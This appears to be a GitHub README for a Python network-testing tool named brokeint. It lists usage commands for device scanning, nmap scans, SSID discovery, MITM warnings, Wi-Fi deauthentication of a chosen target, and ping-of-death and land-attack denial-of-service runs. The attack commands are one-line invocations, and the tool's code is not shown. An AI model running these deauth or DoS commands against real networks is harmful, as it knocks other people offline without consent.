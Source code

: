 # brokent - Network Security and Attack Testing Python Script

## Use

### Help Documentation

`python3 brokeint.py -h`

###  Scans devices with cidr display and gives information about devices 

`python3 brokeint.py -ip 192.168.1.1/24 -iface eth0,Wi-Fi`

### The --nmap parameter scans using nmap and collects information about devices

`python3 brokeint.py -ip 192.168.1.1/24 --nmap`

### Warns the client against MITM attacks when accessing http sites

`
python3 brokeint.py -M -iface Wi-Fi`

### Brings detailed information about networks and SSID around

`python3 brokeint.py --network`

### Shell opens and provides information about your own network with commands from the help documentation

`python3 brokeint.py --networkPassword`

### This command deauts the desired target and tries to interrupt its internet service

`python3 brokeint.py --deauth <packet_count> -a <modem(SSID)_mac> -c <target_mac> -iface Wi-Fi`

### Ping of death sends ICMP pings to the target and performs a DOS attack

`python3 brokeint.py ip <target_ip> -d 150 -C 10000 -iface Wi-Fi`

### Land attack (designed for Microsoft Windows): performs a DOS attack by making the attack on the local network

`python3 brokeint.py -sI <source_ip> -dI <destination_ip> -C 1000`
